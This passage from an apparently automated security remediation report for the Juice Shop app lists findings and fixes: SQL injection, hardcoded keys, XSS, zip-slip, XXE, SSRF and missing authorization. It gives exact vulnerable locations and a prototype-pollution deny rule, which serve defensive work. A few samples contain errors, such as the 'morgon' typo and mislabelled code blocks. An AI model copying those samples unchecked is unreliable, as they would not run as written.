2. Remove all `localStorage.setItem('token', ...)` calls from `oauth.component.ts:51`, `login.component.ts:104`, and `chatbot.component.ts:100`.
3. Remove `localStorage.getItem('token')` from `request.interceptor.ts:13` - rely on the browser's automatic cookie sending (`withCredentials: true` on HttpClient) instead of manual Bearer header injection.
4. Update the Express backend to read the session cookie in its JWT middleware rather than the `Authorization` header, or support both for a transition period.

```javascript
// Express BFF endpoint that sets an HttpOnly cookie
app.post('/api/auth/session', (req, res) => {
  const { token } = req.body; // validated JWT from upstream auth
  res.cookie('sid', token, {
    httpOnly: true,
    secure: true,
    sameSite: 'strict',
    maxAge: 8 * 60 * 60 * 1000 // 8 hours
  });
  res.json({ ok: true });
});
```

**Reference:** CWE-922

---

<a id="m-006"></a>
#### M-006 — Manual review: verify SQL Injection Authentication Bypass at routes/login.ts:34

**Addresses:**

- 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/login.ts:34`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/login.ts:34`) and decide whether to keep, downgrade, or remove this finding.

1. Replace the `models.sequelize.query(string)` call at `routes/login.ts:34` with `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })` using Sequelize ORM parameterisation.
2. Add server-side email format validation (e.g. `validator.isEmail(req.body.email)`) before the DB query to reject obviously malformed inputs early.
3. Enable a global `express-validator` sanitization middleware or add a per-route schema with `zod` to enforce email and password field types.

```typescript
// routes/login.ts — parameterised replacement
const authenticatedUser = await UserModel.findOne({
  where: {
    email: req.body.email || '',
    password: security.hash(req.body.password || ''),
    deletedAt: null
  }
})
```

**Reference:** CWE-89

---

<a id="m-007"></a>
#### M-007 — Manual review: verify Hardcoded RSA Private Key at lib/insecurity.ts:23

**Addresses:**

- 🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:23`) and decide whether to keep, downgrade, or remove this finding.

1. Generate a new RSA-2048 key pair: `openssl genrsa -out jwt_private.pem 2048 && openssl rsa -in jwt_private.pem -pubout -out jwt_public.pem`.
2. Store the private key in a secrets manager (AWS Secrets Manager, HashiCorp Vault, or at minimum `process.env.JWT_PRIVATE_KEY`) and load it at startup: `const privateKey = process.env.JWT_PRIVATE_KEY`.
3. Remove the hardcoded key string from `lib/insecurity.ts:23`, add it to `.gitignore` if using a local file, and invalidate all existing JWTs by updating the issuer claim or rotating the key.
4. Add a secret-scanning CI step (e.g. `gitleaks` or `trufflehog`) to prevent future key commits.

```typescript
// lib/insecurity.ts — load from environment
const privateKey = process.env.JWT_PRIVATE_KEY ??
  (() => { throw new Error('JWT_PRIVATE_KEY not set') })()
```

**Reference:** CWE-321

---

<a id="m-008"></a>
#### M-008 — Manual review: verify Derived Predictable Password from Email Claim at frontend/src/app/oauth/oauth.component.ts:30

**Addresses:**

- 🔴 [F-010](#f-010) — Derived Predictable Password from Email Claim (`oauth.component.ts:30`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/oauth/oauth.component.ts:30`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/oauth/oauth.component.ts:30`) and decide whether to keep, downgrade, or remove this finding.

1. Remove the derived-password login path from `OAuthComponent.login()`. The backend should have a dedicated `POST /rest/oauth/callback` endpoint that accepts the authorization code (not a derived password) and creates/links the account server-side.
2. On first OAuth login, generate a cryptographically random password (or no password at all) using `crypto.randomBytes(32)` on the server - never expose it to the client.
3. Mark OAuth-linked accounts in the database with an `oauthOnly` flag; reject direct password authentication for those accounts at the `POST /rest/user/login` handler.
4. Audit existing accounts created via OAuth and force a password reset for all accounts where the current password hash matches `bcrypt(btoa(email.reverse()))`.

```javascript
// Express backend: dedicated OAuth callback
app.post('/rest/oauth/callback', async (req, res) => {
  const { code } = req.body;
  const tokenRes = await exchangeCodeForToken(code); // server-side exchange
  const profile = await fetchGoogleProfile(tokenRes.access_token);
  let user = await User.findOne({ where: { email: profile.email } });
  if (!user) {
    user = await User.create({ email: profile.email,
      password: crypto.randomBytes(32).toString('hex'), oauthOnly: true });
  }
  const jwt = security.authorize(user);
  res.json({ token: jwt });
});
```

**Reference:** CWE-522

---

<a id="m-009"></a>
#### M-009 — Manual review: verify SQL Injection via UNION in Product Search at routes/search.ts:23

**Addresses:**

- 🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/search.ts:23`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/search.ts:23`) and decide whether to keep, downgrade, or remove this finding.

1. Replace the `models.sequelize.query(string)` call at `routes/search.ts:23` with `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: '%' + criteria + '%' } }, { description: { [Op.like]: '%' + criteria + '%' } }], deletedAt: null } })` - Sequelize ORM automatically parameterises the value.
2. Keep the 200-character length truncation as defence-in-depth but do not rely on it as the sole injection guard.
3. Add an integration test covering the UNION injection payload to prevent regression.

```typescript
// routes/search.ts — parameterised LIKE
import { Op } from 'sequelize'

const products = await ProductModel.findAll({
  where: {
    [Op.or]: [
      { name: { [Op.like]: `%${criteria}%` } },
      { description: { [Op.like]: `%${criteria}%` } }
    ],
    deletedAt: null
  },
  order: [['name', 'ASC']]
})
```

**Reference:** CWE-89

---

<a id="m-010"></a>
#### M-010 — Manual review: verify Zip-slip arbitrary file write via raw `entry.path` in ZIP extraction at routes/fileUpload.ts:45

**Addresses:**

- 🔴 [F-012](#f-012) — Zip-slip arbitrary file write via raw `entry.path` in ZIP extraction

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileUpload.ts:45`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileUpload.ts:45`) and decide whether to keep, downgrade, or remove this finding.

1. Reject any zip entry whose `entry.path` contains `..` or begins with `/` before calling `path.resolve()`.
2. Replace `absolutePath.includes(path.resolve('.'))` with `absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep)` to enforce a strict prefix constraint.
3. Change the `fs.createWriteStream` argument from `'uploads/complaints/' + fileName` to `absolutePath` - the already-resolved and validated path - so the guard and the write target are identical.
4. Consider using a library such as `fflate` or `adm-zip` that exposes a safe extraction API with automatic path sanitization.

```javascript
const safeBase = path.resolve('uploads/complaints')
const fileName = entry.path.replace(/\.\.\/|\.\.\\/g, '').replace(/^\//, '')
const absolutePath = path.resolve(safeBase, fileName)
if (!absolutePath.startsWith(safeBase + path.sep)) {
  entry.autodrain()
  return
}
entry.pipe(fs.createWriteStream(absolutePath).on('error', next))
```

**Reference:** CWE-22

---

<a id="m-011"></a>
#### M-011 — Manual review: verify Reflected DOM XSS via Search Query Parameter at frontend/src/app/search-result/search-result.component.ts:170

**Addresses:**

- 🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (`search-result.component.ts:170`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/search-result/search-result.component.ts:170`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/search-result/search-result.component.ts:170`) and decide whether to keep, downgrade, or remove this finding.

1. Remove the `bypassSecurityTrustHtml()` call at `search-result.component.ts:170`. The search term display does not require HTML rendering - use `{{ searchValue }}` text interpolation or `[textContent]` binding instead of `[innerHTML]`.
2. Replace `this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)` with `this.searchValue = queryParam` and update the template binding from `[innerHTML]="searchValue"` to `{{ searchValue }}`.
3. Add a strict Content Security Policy that removes `unsafe-inline` and `unsafe-eval`, using nonce-based script allowlisting for Angular's runtime instead.
4. Validate and canonicalize `queryParam` length (e.g., max 200 chars) before using it as a filter value.

```javascript
// search-result.component.ts — safe replacement
// Before (vulnerable):
this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam);

// After (safe):
this.searchValue = queryParam; // plain string

// template (search-result.component.html):
// Before: <span id="searchValue" [innerHTML]="searchValue"></span>
// After:  <span id="searchValue">{{ searchValue }}</span>
```

**Reference:** CWE-79

---

<a id="m-012"></a>
#### M-012 — Manual review: verify Hardcoded RSA Private Key at lib/insecurity.ts:23

**Addresses:**

- 🔴 [F-014](#f-014) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:23`) and decide whether to keep, downgrade, or remove this finding.

1. Remove the hardcoded `privateKey` string from `lib/insecurity.ts` and replace with `process.env.JWT_PRIVATE_KEY` (or load from a mounted secret file at startup).
2. Generate a new 2048-bit RSA key pair using `openssl genrsa -out jwt.key 2048` and store the private key in the deployment secrets manager (e.g., AWS Secrets Manager, HashiCorp Vault, Kubernetes Secret).
3. Update the corresponding public key reference and rotate all active JWT tokens to invalidate any forged tokens using the old key.
4. Add a startup guard that exits the process if `JWT_PRIVATE_KEY` is not set, preventing deployment without a configured key.

```javascript
// lib/insecurity.ts — corrected
const privateKey = process.env.JWT_PRIVATE_KEY ?? (() => { throw new Error('JWT_PRIVATE_KEY env var not set') })()
```

**Reference:** CWE-798

---

<a id="m-013"></a>
#### M-013 — Manual review: verify MD5 Password Hashing Without Salt at lib/insecurity.ts:43

**Addresses:**

- 🔴 [F-015](#f-015) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:43`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:43`) and decide whether to keep, downgrade, or remove this finding.

1. Replace `crypto.createHash('md5')` with `bcrypt.hashSync(data, 12)` using the `bcrypt` npm package. Update `security.hash()` signature and all call sites (`routes/login.ts`, `routes/changePassword.ts`).
2. On successful login with a legacy `MD5` hash, transparently re-hash the user's password with bcrypt and store the new hash - implement a migration flag on the UserModel.
3. Update the Sequelize query at `routes/login.ts:34` to fetch the user by email only, then compare the password with `bcrypt.compareSync(req.body.password, user.password)` rather than embedding the hash in SQL.

```typescript
import bcrypt from 'bcrypt'
// lib/insecurity.ts
export const hashPassword = (plain: string) => bcrypt.hashSync(plain, 12)
export const verifyPassword = (plain: string, hash: string) =>
  bcrypt.compareSync(plain, hash)
```

**Reference:** CWE-916

---

<a id="m-014"></a>
#### M-014 — Manual review: verify Sandbox Escape via Unsafe Expression Evaluation at routes/b2bOrder.ts:23

**Addresses:**

- 🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/b2bOrder.ts:23`) and decide whether to keep, downgrade, or remove this finding.

1. Remove the `safeEval(orderLinesData)` call entirely. Replace order-line total computation with a strict schema-validated input: accept a JSON array of `{quantity: number, unitPrice: number}` objects and compute totals with `quantity * unitPrice` in application code.
2. If an expression DSL is genuinely required, use a purpose-built arithmetic parser (e.g., `mathjs` with a restricted scope that exposes only numeric constants and no property access) rather than a general-purpose JS evaluator.
3. Add a JSON Schema validation step before any expression evaluation that rejects inputs containing `__proto__`, `constructor`, `prototype`, or bracket-notation property access.
4. Pin the `notevil` dependency to a specific `SHA256` digest in `package-lock.json` and enable Dependabot security alerts for it until removal is complete.

```javascript
// Replace dynamic eval with strict computation
const orderLines: Array<{quantity: number, unitPrice: number}> = JSON.parse(orderLinesData)
if (!Array.isArray(orderLines)) throw new Error('Invalid order data')
const total = orderLines.reduce((sum, line) => {
  if (typeof line.quantity !== 'number' || typeof line.unitPrice !== 'number') throw new Error('Invalid line')
  return sum + (line.quantity * line.unitPrice)
}, 0)
```

**Reference:** CWE-94

---

<a id="m-015"></a>
#### M-015 — Manual review: verify Mass Assignment Allows Self-Promotion to Admin Role at server.ts:483

**Addresses:**

- 🔴 [F-017](#f-017) — Mass Assignment Allows Self-Promotion to Admin Role (`server.ts:500`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:483`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:483`) and decide whether to keep, downgrade, or remove this finding.

1. Add `'role'` to the `exclude` array for the User resource at `server.ts:483`: `{ name: 'User', exclude: ['password', 'totpSecret', 'role'], model: UserModel }`.
2. Add an explicit middleware before the finale handler for `POST /api/Users` that deletes `req.body.role` and `req.body.isAdmin` if present, defaulting all registrations to `role: customer`.
3. Validate with an integration test: `POST /api/Users` with `role: admin` should result in a `customer` role in the created user record.

```typescript
// server.ts — strip role on registration
app.post('/api/Users', (req, _res, next) => {
  delete req.body.role
  delete req.body.isAdmin
  next()
})
```

**Reference:** CWE-915

---

<a id="m-016"></a>
#### M-016 — Manual review: verify Missing authentication on POST /file-upload allows unauthenticated file upload… at server.ts:309

**Addresses:**

- 🔴 [F-018](#f-018) — Missing authentication on POST `/file-upload` allows unauthenticated file upload…

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:309`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:309`) and decide whether to keep, downgrade, or remove this finding.

1. Add `security.isAuthenticated()` (or the Passport JWT middleware used elsewhere in `server.ts`) as the first middleware in the `app.post('/file-upload', ...)` chain, before `uploadToMemory.single('file')`.
2. Verify that the authentication middleware rejects unauthenticated requests with 401 before multer processes the multipart body, to avoid parsing untrusted uploads for unauthenticated callers.
3. Consider further restricting the endpoint to a specific role (e.g. registered customers only) if B2B complaint upload is the intended use case.

```javascript
// server.ts — before multer processes the body
app.post('/file-upload',
  security.isAuthenticated(),  // reject unauthenticated first
  uploadToMemory.single('file'),
  ensureFileIsPassed,
  // ...
)
```

**Reference:** CWE-306

---

<a id="m-017"></a>
#### M-017 — Manual review: verify OAuth Implicit Flow Token in URL Fragment at frontend/src/app/login/login.component.ts:134

**Addresses:**

- 🟠 [F-020](#f-020) — OAuth Implicit Flow Token in URL Fragment (`login.component.ts:134`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/login/login.component.ts:134`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/login/login.component.ts:134`) and decide whether to keep, downgrade, or remove this finding.

1. Change `response_type=token` to `response_type=code` and add `code_challenge` (PKCE S256) and `code_challenge_method=S256` to the redirect URL built at `login.component.ts:134`.
2. Generate a cryptographically random `state` value, store it in `sessionStorage`, and include it in the authorization request; validate it in `OAuthComponent.ngOnInit()` before processing the callback.
3. Exchange the authorization code server-side (Express backend) using `code_verifier`; return the Juice Shop JWT to the SPA via a secure response - do not accept tokens in URL fragments.
4. Remove the `oauthMatcher` fragment-based routing path that currently triggers on `#access_token=` in `app.routing.ts:262`.

```javascript
// login.component.ts — generate state + PKCE before redirect
const state = crypto.randomUUID();
sessionStorage.setItem('oauth_state', state);
const verifier = generateCodeVerifier(); // 43-128 chars random
const challenge = await sha256(verifier);  // base64url
sessionStorage.setItem('pkce_verifier', verifier);
window.location.replace(
  `${oauthProviderUrl}?client_id=${this.clientId}` +
  `&response_type=code&scope=email` +
  `&redirect_uri=${this.redirectUri}` +
  `&state=${state}` +
  `&code_challenge=${challenge}&code_challenge_method=S256`
);
```

**Reference:** CWE-287

---

<a id="m-018"></a>
#### M-018 — Manual review: verify Server-Side Template Injection via eval in User Profile at routes/userProfile.ts:62

**Addresses:**

- 🔴 [F-021](#f-021) — Server-Side Template Injection via eval in User Profile (`userProfile.ts:62`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/userProfile.ts:62`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/userProfile.ts:62`) and decide whether to keep, downgrade, or remove this finding.

1. Remove the `eval(code)` branch at `routes/userProfile.ts:55`-65 entirely - this is an intentional vulnerability for the SSTI challenge, but should be disabled in production deployments via `isChallengeEnabled` returning false.
2. When rendering the username in the Pug template, ensure it is passed through `entities.encode()` (the `html-entities` import at line 7 is already available) rather than direct string replacement.
3. Replace `template.replace(/_username_/g, username)` with a Pug variable binding that auto-escapes: `template = template.replace(/_username_/g, '#{username}')` and pass `username` as a template variable to `pug.compile(template)({ username: entities.encode(user.username) })`.

```typescript
// routes/userProfile.ts — safe username rendering
const username = entities.encode(user.username ?? '')
// Do NOT eval; pass as escaped template variable
```

**Reference:** CWE-94

---

<a id="m-019"></a>
#### M-019 — Manual review: verify Missing Authorization on Products PUT Endpoint at server.ts:369

**Addresses:**

- 🔴 [F-022](#f-022) — Missing Authorization on Products PUT Endpoint (`server.ts:369`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:369`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:369`) and decide whether to keep, downgrade, or remove this finding.

1. Uncomment `app.put('/api/Products/:id', security.isAuthorized())` at `server.ts:369` to restore authentication.
2. Add a role check - product updates should be restricted to `admin` role: add a custom middleware after `isAuthorized()` that calls `security.decode(utils.jwtFrom(req))?.data?.role === security.roles.admin` and returns 403 otherwise.
3. Consider switching Products write operations to a dedicated admin-only REST namespace (`/rest/admin/products`) rather than the auto-generated finale endpoint.

```typescript
// server.ts — restored and admin-gated
app.put('/api/Products/:id',
  security.isAuthorized(),
  requireRole(security.roles.admin)
)
```

**Reference:** CWE-862

---

<a id="m-020"></a>
#### M-020 — Manual review: verify Server-Side Request Forgery via Profile Image URL at routes/profileImageUrlUpload.ts:24

**Addresses:**

- 🟠 [F-023](#f-023) — Server-Side Request Forgery via Profile Image URL (`profileImageUrlUpload.ts:24`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:24`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/profileImageUrlUpload.ts:24`) and decide whether to keep, downgrade, or remove this finding.

1. Validate that `imageUrl` uses `https:` scheme and resolves to a public IP (use the `ssrf-req-filter` or `got` with `dnsLookup` hook to block RFC-1918 ranges).
2. Alternatively, implement a server-side proxy that only allows fetching from a configured allowlist of image CDN domains.
3. Limit file extension to image types before the fetch, not after - reject requests where the URL path does not end in `.jpg`, `.jpeg`, `.png`, `.gif`.
4. Remove the fallback at lines 35-37 that stores the raw attacker-supplied URL as `profileImage` - it enables stored URL injection independently of the SSRF.

```typescript
import { isIP } from 'node:net'
import { URL } from 'node:url'

function isSafeUrl (raw: string): boolean {
  try {
    const u = new URL(raw)
    if (!['https:'].includes(u.protocol)) return false
    // DNS resolution check omitted for brevity; use ssrf-req-filter in prod
    return true
  } catch { return false }
}

if (!isSafeUrl(url)) {
  return res.status(400).json({ error: 'Invalid image URL' })
}
```

**Reference:** CWE-918

---

<a id="m-021"></a>
#### M-021 — Manual review: verify Unlocked npm Dependencies Enable Postinstall Code Execution at .npmrc:1

**Addresses:**

- 🟠 [F-024](#f-024) — Unlocked npm Dependencies Enable Postinstall Code Execution (.npmrc:1)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.npmrc:1`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (.npmrc:1) and decide whether to keep, downgrade, or remove this finding.

1. Remove `package-lock=false` from `.npmrc` or override it for CI with `npm install --package-lock` in the `npm ci` flow - replace `npm install` with `npm ci` in all CI jobs so the lockfile is enforced and no network resolution occurs.
2. Add `--ignore-scripts` to all `npm install` invocations in workflows that do not require postinstall execution (build/test jobs). For the `coding-challenge-rsn` job on `windows-latest`, verify whether any postinstall hook is genuinely required before adding the flag.
3. Remove `--unsafe-perm` from the `Dockerfile` line 5 `npm install` invocation - it is not required when running as a dedicated user inside the container; replace with `npm install --omit=dev` without the flag.
4. Enable `npm audit` as a required CI gate and pin the `CYCLONEDX_NPM_VERSION` range to an exact version (`=4.x.x`) to reduce transitive drift.
5. Consider adopting `socket.dev` or Dependabot supply-chain alerts to detect typosquatting and dependency confusion before install.

```javascript
# ci.yml — replace npm install with npm ci
- name: "Install application"
  run: |
    npm ci --ignore-scripts
    cd frontend
    npm ci --ignore-scripts

# Dockerfile — remove --unsafe-perm
RUN npm install --omit=dev
```

**Reference:** CWE-1104

---

<a id="m-022"></a>
#### M-022 — Manual review: verify XXE via external entity resolution in XML upload parser at routes/fileUpload.ts:83

**Addresses:**

- 🟠 [F-025](#f-025) — XXE via external entity resolution in XML upload parser (`fileUpload.ts:83`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileUpload.ts:83`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileUpload.ts:83`) and decide whether to keep, downgrade, or remove this finding.

1. Replace `{ noblanks: true, noent: true, nocdata: true }` with `{ noblanks: true, noent: false, nocdata: true }` in the `libxml.parseXml()` call at `routes/fileUpload.ts:83`.
2. If entity substitution is required for legitimate use cases, restrict to an explicit allowlist of internal entities only and reject documents containing SYSTEM or PUBLIC entity declarations.
3. Remove the parsed XML content from the error message at line 87 - return only a generic error string to prevent exfiltration via error body.
4. Consider disabling XML upload support entirely if the `deprecatedInterfaceChallenge` is the only consumer.

```javascript
// Before (vulnerable):
const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
// After (fixed):
const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })', sandbox, { timeout: 2000 })
```

**Reference:** CWE-611

---

<a id="m-023"></a>
#### M-023 — Manual review: verify Stored XSS via Product Description Trust Bypass at frontend/src/app/search-result/search-result.component.ts:132

**Addresses:**

- 🔴 [F-026](#f-026) — Stored XSS via Product Description Trust Bypass (`search-result.component.ts:132`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/search-result/search-result.component.ts:132`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/search-result/search-result.component.ts:132`) and decide whether to keep, downgrade, or remove this finding.

1. Remove `bypassSecurityTrustHtml()` at `search-result.component.ts:132`. If product descriptions need to render rich text, apply Angular's built-in `DomSanitizer.sanitize(SecurityContext.HTML, description)` which strips scripts while preserving safe tags.
2. Consider using a stricter allowlist library such as `DOMPurify` configured to allow only safe inline formatting tags (`<b>`, `<i>`, `<em>`, `<strong>`) and strip all event handlers and `<script>` tags.
3. Validate product descriptions server-side at `PUT /api/Products/:id` - apply the same sanitization policy before persisting to the database so the trust boundary is enforced at the data ingestion point.

```javascript
// search-result.component.ts — safe alternative
import DOMPurify from 'dompurify';

trustProductDescription(tableData: any[]) {
  for (let i = 0; i < tableData.length; i++) {
    // Allows basic formatting, strips scripts and event handlers
    tableData[i].description = DOMPurify.sanitize(
      tableData[i].description,
      { ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'br'] }
    );
  }
}
```

**Reference:** CWE-79

---

<a id="m-024"></a>
#### M-024 — Manual review: verify Missing Audit Log for B2B Order Submissions at routes/b2bOrder.ts:17

**Addresses:**

- 🟠 [F-027](#f-027) — Missing Audit Log for B2B Order Submissions (`routes/b2bOrder.ts`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/b2bOrder.ts:17`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/b2bOrder.ts:17`) and decide whether to keep, downgrade, or remove this finding.

1. Import the application logger (`lib/logger.ts`) in `b2bOrder.ts` and emit a structured security event on each successful order containing at minimum: JWT subject (from decoded token), `cid`, `orderNo`, client IP, and ISO 8601 timestamp.
2. On evaluation error or sandbox timeout, log the actor identity and a hash of the attempted `orderLinesData` payload to support incident investigation.
3. Route security audit events to an append-only log sink (separate from the general application log) so that even a compromised server process cannot retroactively delete order records.

```javascript
// routes/b2bOrder.ts — inside the success branch
import logger from '../lib/logger'
// after vm.runInContext succeeds:
const actor = security.authenticatedUsers.from({ headers: { authorization: req.headers.authorization } } as any)
logger.info({ event: 'b2b_order_placed', actor: actor?.data?.email ?? 'unknown', cid: body.cid, orderNo, ip: req.ip })
```

**Reference:** CWE-778

---

<a id="m-025"></a>
#### M-025 — Manual review: verify Missing User-Identity Audit Trail in Access Logs at server.ts:338

**Addresses:**

- 🟠 [F-028](#f-028) — Missing User-Identity Audit Trail in Access Logs (`server.ts:338`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:338`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:338`) and decide whether to keep, downgrade, or remove this finding.

1. Define a custom morgan token: `morgan.token('user-id', (req) => security.authenticatedUsers.from(req)?.data?.id ?? 'anonymous')` and add it to the log format.
2. Emit a separate structured audit log (JSON-lines) for all state-changing operations (POST/PUT/DELETE on `/api/Users`, `/api/Products`, `/rest/basket/:id/order`) using a dedicated middleware that records `{ ts, userId, method, path, statusCode, ip }`.
3. Write the audit log to an append-only sink (separate file rotation with no overwrite, or forward to a SIEM) distinct from the access log.

```typescript
// server.ts — user-aware morgan token
morgon.token('user-id', (req: Request) =>
  security.authenticatedUsers.from(req)?.data?.id?.toString() ?? 'anon'
)
app.use(morgan(':method :url :status :user-id :response-time ms'))
```

**Reference:** CWE-778

---

<a id="m-026"></a>
#### M-026 — Manual review: verify Missing Security Audit Log for Data Mutations at models/user.ts:37

**Addresses:**

- 🟠 [F-029](#f-029) — Missing Security Audit Log for Data Mutations

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `models/user.ts:37`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`models/user.ts:37`) and decide whether to keep, downgrade, or remove this finding.

1. Add `afterCreate`, `afterUpdate`, and `afterDestroy` hooks to the `User`, `Card`, and `Basket` Sequelize models that emit structured log entries (actor ID, action, resource ID, timestamp) to an append-only audit sink.
2. Use a separate audit log destination (file with append-only permissions, or a dedicated `AuditLog` table with no UPDATE/DELETE grants to the application DB user) so the attacker cannot overwrite the trail.
3. At minimum, log: user login (success/failure), role change, account deletion, card create/read/delete, and any raw `sequelize.query()` execution with the caller's IP and JWT subject.

```javascript
// models/user.ts — add lifecycle hook
User.addHook('afterUpdate', (user: User) => {
  if (user.changed('role')) {
    logger.warn({
      event: 'ROLE_CHANGE',
      userId: user.id,
      from: user.previous('role'),
      to: user.role,
      ts: new Date().toISOString()
    })
  }
})
```

**Reference:** CWE-778

---

<a id="m-027"></a>
#### M-027 — Manual review: verify No audit logging of file upload events or file access on /ftp/ at routes/fileUpload.ts:27

**Addresses:**

- 🟠 [F-030](#f-030) — No audit logging of file upload events or file access on /ftp/ (`fileServer.ts`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileUpload.ts:27`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileUpload.ts:27`) and decide whether to keep, downgrade, or remove this finding.

1. Import the application logger in `routes/fileUpload.ts` and emit a structured log event for every upload attempt including: actor IP, original filename, MIME type reported, file size, outcome (accepted/rejected), and rejection reason.
2. Log zip-slip rejection events with the attempted entry path to detect exploitation attempts.
3. In `routes/fileServer.ts`, log every file download including: actor IP, requested filename, resolved filename (post null-byte stripping), and response status.
4. Route audit logs to an append-only sink (separate from the application log) to satisfy PCI-DSS Requirement 10.2.1 and 10.3.

```javascript
// routes/fileUpload.ts — add at top of handleZipFileUpload
logger.info({ event: 'file_upload', ip: req.ip, filename: file?.originalname, size: file?.size, type: 'zip' })
// On rejected entry:
logger.warn({ event: 'zip_slip_attempt', ip: req.ip, entry_path: fileName, resolved: absolutePath })
```

**Reference:** CWE-778

---

<a id="m-028"></a>
#### M-028 — Manual review: verify Unauthenticated Access Log Directory Listing at server.ts:281

**Addresses:**

- 🟠 [F-031](#f-031) — Unauthenticated Access Log Directory Listing (`server.ts:281`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:281`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:281`) and decide whether to keep, downgrade, or remove this finding.

1. Add `security.isAuthorized()` before the `serveIndex` and `serveLogFiles()` handlers at `server.ts:281`-283.
2. Additionally add an admin-role check so only `role: admin` users can access logs: `app.use('/support/logs', security.isAuthorized(), requireRole(security.roles.admin), ...)`.
3. Consider moving log files outside the webroot entirely and only exposing them via an authenticated admin API endpoint.

